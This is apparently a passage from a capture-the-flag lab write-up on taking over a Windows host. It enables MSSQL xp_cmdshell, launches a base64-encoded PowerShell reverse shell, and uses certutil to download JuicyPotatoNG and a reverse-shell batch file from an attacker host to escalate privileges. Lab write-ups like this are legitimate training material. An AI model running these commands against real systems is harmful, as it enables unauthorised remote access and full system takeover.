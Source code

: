 ![capture-16](capture-16.PNG)

<b> This is the unintended route. </b>

Using the help menu, we can turn on xp_cmdshell.
Using nishang's reverse shell, we can encode it in base64 to run with powershell.<br>
`cat powershell_reverse_tcp.ps1 | iconv -t UTF-16LE | base64 -w 0
![capture-17](capture-17.PNG)
using xp_cmdshell, we can use powershell and -enc to run the base64 code.
`xp_cmdshell powershell -enc base64_payload`
![capture-18](capture-18.PNG)

## Root
Once a shell is recieved, a quick whoami /priv, we find that we have `SEimpersonatePrivileges`<br>
![capture-19](capture-19.PNG)
We can use JuicyPotato to obtain root.
<br>`https://github.com/antonioCoco/JuicyPotatoNG/releases`<br>
```
PS C:\Users\sqlsvc\Desktop> certutil -urlcache -f "http://10.10.16.2:3000/JuicyPotatoNG.exe" potato.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\Users\sqlsvc\Desktop> .\potato.exe


         JuicyPotatoNG
         by decoder_it & splinter_code



         JuicyPotatoNG
         by decoder_it & splinter_code


Mandatory args: 
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch


Optional args: 
-l <port>: COM server listen port (Default 10247)
-a <argument>: command line argument to pass to program (default NULL)
-c <CLSID>: (Default {854A20FB-2D44-457D-992F-EF13785D2B51})
-i : Interactive Console (valid only with CreateProcessAsUser)


Additional modes: 
-b : Bruteforce all CLSIDs. !ALERT: USE ONLY FOR TESTING. About 1000 processes will be spawned!
-s : Seek for a suitable COM port not filtered by Windows Defender Firewall
PS C:\Users\sqlsvc\Desktop
```
We need to create a bat file to recieve a reverse shell, create a basic .bat file with the same encoded shell.
![capture-20](capture-20.PNG)
Download the file and run it with JuicyPotato.
```
PS C:\Users\sqlsvc\Desktop> certutil -urlcache -f "http://10.10.16.2:3000/lol.bat" lol.bat
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\Users\sqlsvc\Desktop> .\potato.exe -t * -p C:\Users\sqlsvc\Desktop\lol.bat
```
